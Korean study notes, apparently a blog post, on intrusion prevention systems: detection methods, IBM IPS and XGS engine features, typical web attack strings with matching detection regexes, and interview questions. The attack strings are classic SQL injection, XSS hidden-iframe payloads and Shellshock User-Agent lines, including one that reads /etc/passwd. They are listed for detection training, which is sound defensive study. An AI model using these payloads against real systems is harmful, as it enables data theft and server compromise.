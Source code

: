 ```yaml
---
layout : post
title : IPS(Intrusion Prevention System)
---
```


- Signature - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS 공격 탐지

- 행위기반 - 보편화되진 않지만 쓰이고 있긴 하다.

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸 듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지

  ​	 IDS에 차단하는 기능을 가지고 있는 것

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

### IBM IPS 장비

*Response Filters*

- Event 기준
- src IP, dst IP 설정
- block, ignore 선택

<br>

*탐지 엔진 순서*

- Firewall
- Response Filter
- User Define Rule
  - String만 등록(한계가 있음)
  - SNORT 엔진 일부 탑재 OpenSignature(이걸 더 많이 사용함)
  - Tuning Parameter(고급설정)

<br>

*XGS*

- IBM 차세대 IPS 장비
- SNORT 엔진 전체 탑재
- 자체 SSL 인증서 등록(암호화/복호화)
- 각각의 네트워크 구성에 따른 다른 정책 적용

<br>

<br>

## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  > Regex : /(\%27)\|(\')\|(\-\-)\|(\%23)\|(#)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  > Regex : /((\%3C)\|<)((\%2F)\|\/)\*[a-z0-9\%]+((\%3E)\|>)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

  > Regex : \"((?:\[^\"\]\|\\\")*)\"
  >
  > Link : <https://stackoverflow.com/questions/28115717/regexp-to-parse-apache2-log-handle-shellshock-bash-hack>

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?

